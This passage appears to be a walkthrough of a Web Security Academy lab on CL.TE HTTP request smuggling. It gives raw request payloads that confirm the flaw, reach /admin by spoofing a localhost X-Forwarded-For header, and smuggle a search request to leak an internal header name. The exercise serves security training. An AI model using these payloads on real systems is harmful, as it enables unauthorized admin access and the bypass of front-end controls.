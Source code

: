 The content-length for the GET request should be two bytes plus one (i.e. 3). The automatic content length updates should also be enabled since it is CL.TE and to make sure the front-end forwards the entire request to the back end:

```http
POST / HTTP/1.1
Host: 0a5c007b04fe44ad80764f2300d600f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

0

GET /fsdafdasfasf HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

If a 404 Not Found returns. it indicates the vulnerability. To exploit, change it to request `/admin` and add the X-Forwarded-For header for localhost:

```http
POST / HTTP/1.1
Host: 0a5c007b04fe44ad80764f2300d600f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
X-Forwarded-For: 127.0.0.1

x=
```

![[Unauthorized.png]]

If still unauthorized, it indicates a different header name is being used. To leak it, there may be a search function that reflects the value back in the response. The behaviour can be exploited via the following by creating a new attack request that uses a POST request for the search, leaving the content-type and length and adding the search:

```http
POST / HTTP/1.1
Host: 0a5c007b04fe44ad80764f2300d600f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 126
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

search=foobar
```
